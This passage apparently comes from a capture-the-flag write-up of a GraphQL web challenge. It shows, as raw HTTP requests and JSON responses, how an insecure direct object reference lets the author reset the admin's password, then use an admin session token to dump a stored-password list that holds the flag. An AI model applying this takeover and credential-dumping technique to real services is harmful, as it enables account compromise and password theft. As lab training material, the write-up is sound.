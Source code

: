 ```http
  }
}
```

And here is the response:
```json
{
  "data": {
    "UpdatePassword": {
      "message": "Password updated successfully!",
      "token": null
    }
  }
}
```

It seems we changed admin's password, Let's check it\
Yes, we logged in as admin and now we can see admin's notes inside saved_password table which is actually the flag

```http
POST /graphql HTTP/1.1
Host: 138.68.162.218:32084
Content-Length: 84
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://138.68.162.218:32084
Referer: http://138.68.162.218:32084/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY3OTc5ODMyOH0.uZ5Bqop3SSoHX4cgxHZn6kJLKXT3CX3d3wz9WLE4bRw
Connection: close

{
  "query": "{ getPhraseList { id, owner, type, address, username, password, note } }"
}
```

```json
{
  "data": {
    "getPhraseList": [
      {
        "id": "1",
        "owner": "admin",
        "type": "Web",
        "address": "igms.htb",
        "username": "admin",
        "password": "HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}",
        "note": "password"
      }
    ]
  }
}
```

And here is the flag:
```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```
